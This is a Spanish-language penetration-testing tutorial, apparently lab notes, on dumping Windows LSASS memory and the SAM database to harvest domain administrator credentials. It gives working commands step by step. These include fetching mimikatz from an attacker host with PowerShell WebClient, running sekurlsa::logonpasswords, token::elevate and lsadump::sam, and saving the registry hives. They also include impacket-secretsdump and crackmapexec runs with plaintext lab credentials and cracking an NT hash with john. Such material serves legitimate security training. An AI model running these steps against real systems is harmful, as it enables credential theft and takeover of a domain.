Volcado ISASS y SAM
TÉCNICAS DE DUMP DEL LSAS Y SAM
Para realizar estas técnicas es necesario tener privilegios elevados.
Esto es interesante porque aunque tengamos privilegios administrativos dentro de la máquina no los tenemos dentro del dominio, entonces si volcamos los hashes de las sesiones activas dentro del sistema, podremos intentar obtener las credenciales de un usuario que si tenga privilegios dentro del dominio.
Ahora suponemos que tenemos comprometido un usuario local de la maquina pero no tenemos acceso a ningún otro usuario.
Ejecutamos el programa de las loggonsessions con privilegios de administrador local:


Por aquí vemos un usuario de dominio que nos podría interesar comprometer

También puede darse el caso de tener un usuario de dominio que si tiene privilegios de administrador en su equipo local pero no en el dominio, para poner este ejemplo podemos asignarselos:
net localgroup administradores corp\empleado1 /add

VOLCADO EN WINDOWS
Con mimikatz en windows:
(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.129:8000/mimikatz.exe", "mimikatz.exe")
Abrimos 2 powershell, una como empleado1, otra como administrador local y otra como administrador del dominio:

Como administrador local abrimos mimikatz:

En la otra powershell como administrador local ejecutamos logonsessions:

Donde vemos dos sesiones, 1 de administrador local por empleado1 y otra de administrador de dominio.
Ahora en mimikatz:
sekurlsa::logonpasswords
Nos vuelca todas las credenciales almacenadas

Entre ellas las del administrador del dominio.
a87f3a337d73085c45f9416be5787d86
Lo pasamos a kali:
echo a87f3a337d73085c45f9416be5787d86 > admin.hash
john -format=NT admin.hash --show

También podemos volcar la base de datos SAM.
Para esto deberemos tener privilegios SYSTEM
Para ello vamos a utilizar los privilegios de administrador para suplantar un access token como system
Con mimikatz:
privilege::debug
token::elevate

Suplanta el token de acceso de system, es decir; somo empleado1 con permiso de administración pero con el token de System.
lsadump::sam

Datos de los usuarios locales del sistema, la clave del SAM.

El usuario local WS01 con su hash.


VOLCADO EN LINUX
Otras opciones sin mimikatz
:PARA VOLCAR SAM:
La SAM se monta en tiempo de ejecución en el registro por lo que:
reg save hklm\sam sam.save
reg save hklm\system system.save
Los llevamos a linux.
impacket-secretsdump -sam sam.save -system system.save LOCAL

PARA VOLCAR LSAS:



Lo pasamos a Kali o una maquina windows con mimikatz:
sekurlsa::minidump C:\Users\empleado1\Desktop\lsass.DMP
sekurlsa::logonPasswords

Desde kali:
En este caso necesitamos que el usuario sea un usuario de dominio con permisos de administrador locales como empleado1.
impacket-secretsdump empleado1:Passw0rd1@192.168.20.131

crackmapexec smb 192.168.20.131 -u empleado1 -p "Passw0rd1" --sam

crackmapexec smb 192.168.20.131 -u empleado1 -p "Passw0rd1" --lsa
